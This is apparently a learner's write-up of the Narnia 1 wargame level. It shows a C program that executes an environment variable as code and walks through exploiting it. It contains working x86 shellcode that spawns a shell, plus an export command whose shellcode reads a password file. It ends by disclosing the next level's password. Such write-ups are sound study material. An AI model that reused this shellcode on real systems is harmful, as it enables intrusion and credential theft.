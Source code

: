 # **NARNIA 1**
----------------------

Alright, let's connect and go to /narnia/
Let's read our new code!

```c
#include <stdio.h>
int main(){
    int (*ret)();
    if(getenv("EGG")==NULL){
        printf("Give me something to execute at the env-variable EGG\n");
        exit(1);
    }

    printf("Trying to execute EGG!\n");
    ret = getenv("EGG");
    ret();

    return 0;
}
```

Basically what it does is just using our Environnement Variable called EGG.

### What is an env Variables?
> An env var is just like a basic var, but you can call her from everywhere from the shell she is in
>It can contains every kind of data (number,string,exec)
>In our case the fact it can contains everything is cool

## How are we supposed to break into?
----------------------
Basically what i'll do is injecting code into the EGG env var 
so let's just tap
```bash
export EGG=`My code Right here`
```
and it should work!
But what this var is supposed to do when called
Let's just setup a new Shell!

But we can't just say a basic /bin/sh,
we'll have to do something trickier!

The idea is the following, let's take a bit of code Machine Readable and tell the EGG var to print this code
The fact this code is Machine Readable is that it will be automatically called!!

**KEEP THIS CODE IN A FILE IT COULD BE REALLY USEFUL IN THE FUTURE**

```
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xb0\x0b\xcd\x80
```

Now let's just build up our final code
*Double check that you've put the little \` to tell the env to exec the py script!(altGr + 7)*

```bash
export EGG=`python -c 'print "\x31\xc0\x99\xb0\x0b\x52\x68\x2f\x63\x61\x74\x68\x2f\x62\x69\x6e\x89\xe3\x52\x68\x6e\x69\x61\x32\x68\x2f\x6e\x61\x72\x68\x70\x61\x73\x73\x68\x6e\x69\x61\x5f\x68\x2f\x6e\x61\x72\x68\x2f\x65\x74\x63\x89\xe1\x52\x89\xe2\x51\x53\x89\xe1\xcd\x80"'`
```

WELL DONE ẁe got our code!
Let's connect to the next one!

nairiepecu